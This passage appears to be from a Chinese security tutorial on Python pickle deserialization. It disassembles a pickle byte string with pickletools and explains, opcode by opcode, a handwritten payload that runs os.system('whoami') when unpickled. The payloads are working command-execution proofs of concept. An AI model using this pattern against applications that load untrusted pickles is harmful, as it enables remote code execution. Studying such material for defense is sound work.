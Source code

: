 ####  pickletools

用pickletools可以方便的将opcode转化为便于肉眼读取的形式

```
import pickletools
data=b"\x80\x05\x95\x1a\x00\x00\x00\x00\x00\x00\x00\x8c\x02nt\x94\x8c\x06system\x94\x93\x94\x8c\x02id\x94\x85\x94R\x94."
pickletools.dis(data)
    0: \x80 PROTO      5
    2: \x95 FRAME      26
   11: \x8c SHORT_BINUNICODE 'nt'    
   15: \x94 MEMOIZE    (as 0)        
   16: \x8c SHORT_BINUNICODE 'system'
   24: \x94 MEMOIZE    (as 1)        
   25: \x93 STACK_GLOBAL
   26: \x94 MEMOIZE    (as 2)        
   27: \x8c SHORT_BINUNICODE 'id'    
   31: \x94 MEMOIZE    (as 3)
   32: \x85 TUPLE1
   33: \x94 MEMOIZE    (as 4)
   34: R    REDUCE
   35: \x94 MEMOIZE    (as 5)
   36: .    STOP
highest protocol among opcodes = 4

```

#### 利用pvm操作码演示

```
基本模式：
c<module>
<callable>
(<args>
tR.

例子：
cos
system
(S'whoami'
tR.
```

![image-20220807235945245](https://z3eyond-top-1304266053.cos.ap-chengdu.myqcloud.com/typora/image-20220807235945245.png)

字节码就是`__import__('os').system(*('whoami',))`

```
cos         =>  引入模块 os.
system      =>  引用 system, 并将其添加到 stack.
(S'whoami'  =>  把当前 stack 存到 metastack, 清空 stack, 再将 'whoami' 压入 stack.
t           =>  stack 中的值弹出并转为 tuple, 把 metastack 还原到 stack, 再将 tuple 压入 stack.
R           =>  system(*('whoami',)).
.           =>  结束并返回当前栈顶元素.
```
